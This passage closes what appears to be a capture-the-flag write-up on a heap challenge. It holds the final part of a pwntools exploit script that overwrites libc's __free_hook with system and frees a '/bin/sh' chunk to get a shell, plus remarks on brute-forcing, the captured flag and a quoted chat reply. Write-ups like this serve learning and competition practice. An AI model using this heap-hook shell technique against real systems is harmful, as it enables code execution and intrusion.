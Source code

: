 ```python
    try:
        add(0x500, "BBBB")
    except EOFError:
        p.close()
        #p.kill()
        continue

    edit(1, p64(libc.sym["__free_hook"]))

    add(0x30, "/bin/sh")

    gdb.attach(p)

    try:
        add(0x30, p64(libc.sym["system"]))
        delete(3)
        p.sendline("cat flag")
        break
    except:
        p.close()
        #p.kill()
        continue

p.interactive()
```

Now it is a matter of luck as to when you get the flag. I had an appointment so I gave the script to my teammates. One of them got the flag very quickly. My later run took more than an hour (I think; I was watching a movie while it ran).

Flag: `flag{ok_but_why_is_global_max_fast_even_writeable}`

```
poortho — Yesterday at 5:23 PM
u dont deserve actual solution
```
